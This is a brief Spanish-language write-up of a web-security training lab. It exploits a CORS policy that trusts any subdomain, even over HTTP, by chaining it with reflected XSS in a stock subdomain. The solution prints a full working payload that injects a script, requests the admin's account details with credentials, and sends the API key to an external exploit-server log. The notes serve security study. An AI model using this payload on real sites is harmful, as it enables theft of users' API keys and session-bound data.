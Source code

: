 En esta clase continuamos con la explotación del laboratorio anterior, donde la configuración CORS del servidor acepta solicitudes desde cualquier subdominio, incluso si estas provienen de un origen no seguro (HTTP).

Profundizamos en cómo aprovechar una vulnerabilidad de XSS reflejado en un subdominio que opera sobre HTTP, lo cual nos permite inyectar y ejecutar un script malicioso. Dicho script accede al endpoint sensible de la cuenta del administrador y, gracias a la configuración permisiva del servidor, la clave API es expuesta. Este valor es redirigido al servidor de explotación para completar con éxito el laboratorio.

Solucion
Segimos con el script

<script>
    document.location="http://stock.0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a97004f0494e312811342b1019000de.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

el apikey me lo dio asi con los logs
![Pasted_image_20250728225235.png](/Imagenes/Pasted_image_20250728225235.png)

